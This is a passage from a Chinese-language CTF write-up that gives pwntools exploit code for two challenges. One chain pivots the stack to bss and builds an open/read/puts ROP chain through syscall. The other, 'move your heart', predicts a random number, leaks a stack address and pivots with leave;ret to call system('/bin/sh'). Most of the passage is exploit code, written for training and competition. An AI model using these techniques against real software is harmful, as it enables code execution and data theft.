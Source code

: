 pl 6、7 再次构造，并调整 rsp

```plain
pl = b'a'*0x100+p64(bss+0x300)+p64(read)
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read)
p.send(pl)
```

pl 8 构造的 rop 送入

```plain
syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main)
#dbg()
p.send(pl)
```

‍

#### move your heart

首先伪随机数很好获取，绕过后到 back()，获取了 stack 地址

```plain
sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))
```

[![](assets/1701606597-0c76cc30bb643fc9c4ee5400908ed2c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170437-2b5949c2-845f-1.png)

首先第一点就是 back() 里的 read 就是向 stack 地址输入的

```plain
pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

直接栈迁移到 pl 的前一栈帧处，然后执行

[![](assets/1701606597-034247293bcfb38aac5c0376c467c492.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170444-2f2085c0-845f-1.png)
